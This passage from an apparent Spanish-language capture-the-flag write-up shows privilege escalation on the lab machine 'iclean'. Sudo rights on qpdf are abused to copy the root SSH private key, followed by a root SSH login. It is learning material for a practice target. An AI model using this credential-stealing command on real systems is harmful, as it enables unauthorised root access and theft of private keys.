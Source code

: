 ## Escalada de privilegios

Ejecutando **sudo -l**, pude ver que puedo ejecutar el script /usr/bin/qpdf como root sin necesidad de proporcionar contraseña.

```bash
consuela@iclean:/tmp$ sudo -l
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

Después de revisar la documentación de la herramienta, descubrí que es posible generar un archivo duplicando el contenido de uno existente. Por lo tanto, incluí la clave SSH de root como parámetro para obtenerla al generar el archivo y poder conectarme mediante ssh.

```bash
consuela@iclean:/tmp$ sudo /usr/bin/qpdf --qdf --add-attachment /root/.ssh/id_rsa -- --empty ./id_rsa
```

```bash
┌──(root㉿kali)-[/home/kali]
└─# ssh -i id_rsa root@10.10.11.12 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Tue Jul  2 12:05:32 AM UTC 2024




Expanded Security Maintenance for Applications is not enabled.

3 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@iclean:~# whoami
root
root@iclean:~# 
```

